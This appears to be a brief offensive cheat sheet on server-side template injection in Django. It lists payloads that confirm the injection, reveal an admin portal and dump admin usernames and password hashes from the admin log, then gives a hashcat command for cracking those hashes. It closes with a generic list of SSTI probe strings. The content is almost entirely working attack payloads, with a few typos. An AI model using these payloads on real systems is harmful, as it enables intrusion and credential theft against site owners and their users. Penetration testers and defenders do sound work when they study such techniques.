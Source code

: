 ***
### Exfiltration of sensitive data with SSTI
Detection:
```django
{% if 'ahsan' == 'ahsan' %} a {% endif %}
```
Debugging:
```django
{% debug %}
```
I got to know I have to pwn it

Disclosing Admin Portal:
```django
{% include 'admin/base.html' %} #/secret-admin-portal
```
Disclosing Credetials:
```django
{% load log %}{% get_admin_log 10 %}{% for e in log %}{{e.user.get_username}} : {{e.user.password}} {% endfor %%}
```
Dumped Django Hashed Credentials

Dencrypted Using Hashcat:
```bash
hascat -m 10000 hashed_passwords rockyou.txt
```
Django Admin Panel Pwn

---
### SSTI (Server Side Template Injection) Payload List
```
{7*7}
*{7*7}
{{7*7}}
[[7*7]]
${7*7}
@(7*7)
<?=7*7?>
<%= 7*7 %>
${= 7*7}
{{= 7*7}}
${{7*7}}
#{7*7}
[=7*7]
```